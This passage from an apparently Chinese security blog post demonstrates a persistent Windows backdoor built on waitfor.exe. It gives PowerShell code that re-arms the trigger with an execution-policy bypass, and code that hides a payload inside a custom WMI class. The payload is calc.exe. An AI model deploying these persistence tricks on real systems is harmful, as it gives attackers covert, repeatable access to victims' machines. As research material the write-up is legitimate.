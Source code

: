 因为触发一次后，进程waitfor.exe将退出，导致该后门无法重复使用

需要再次开启一个等待模式，才能再次触发后门

当然，可以在每次后门触发后手动开启一个等待模式

但这不够智能，能否通过脚本实现自动开启等待模式，使其成为一个可持续触发的后门呢？

为此，我写了以下POC


### 思路1：

在目标系统保存一个ps脚本1.ps1

1.ps1内容如下：

```
start-process calc.exe
cmd /c waitfor persist `&`& powershell -executionpolicy bypass -file c:\test\1.ps1
```

**注：**

转义字符&在powershell中要用`&表示


**开启等待模式：**

cmd：

`waitfor persist1 && powershell -executionpolicy bypass -file c:\test\1.ps1`

**发送信号：**

cmd：

`waitfor /s 127.0.0.1 /si persist1`


### 思路2：

不在目标系统保存文件



这里使用一个之前在《WMI backdoor》中介绍过的技巧，将payload保存在WMI类中，进行读取使用

存储payload：

（管理员权限）

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Backdoor'
$StaticClass.Put()
$StaticClass.Properties.Add('Code' , "cmd /c start calc.exe")
$StaticClass.Put() 
```


读取payload：

`([WmiClass] 'Win32_Backdoor').Properties['Code'].Value`

